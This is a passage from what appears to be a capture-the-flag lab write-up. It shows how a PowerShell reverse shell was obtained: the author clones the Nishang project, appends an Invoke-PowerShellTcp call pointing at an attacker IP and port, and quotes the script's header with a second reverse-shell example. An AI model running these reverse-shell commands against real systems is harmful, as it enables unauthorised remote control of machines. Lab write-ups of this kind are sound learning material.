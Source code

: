 ![](images/2025-02-09_3.png)


### 3.2 PowerShell Reverse Shell
To gain a stable shell, I used a PowerShell reverse shell script from the **Nishang** project.

1. **Clone Nishang:**
    ```bash
       git clone https://github.com/samratashok/nishang.git /opt/nishang
    ```
    
2. **Modify the Script:** I used `Invoke-PowerShellTcp.ps1` and appended the following line to the bottom to execute the reverse shell immediately:
```powershell
    Invoke-PowerShellTcp -Reverse -IPAddress 10.10.16.10 -Port 8001
```
```bash
function Invoke-PowerShellTcp 
{ 
<#
.SYNOPSIS
Nishang script which can be used for Reverse or Bind interactive PowerShell from a target. 

.DESCRIPTION
This script is able to connect to a standard netcat listening on a port when using the -Reverse switch. 
Also, a standard netcat can connect to this script Bind to a specific port.

The script is derived from Powerfun written by Ben Turner & Dave Hardy

.PARAMETER IPAddress
The IP address to connect to when using the -Reverse switch.

.PARAMETER Port
The port to connect to when using the -Reverse switch. When using -Bind it is the port on which this script listens.

.EXAMPLE
PS > Invoke-PowerShellTcp -Reverse -IPAddress 192.168.254.226 -Port 4444

```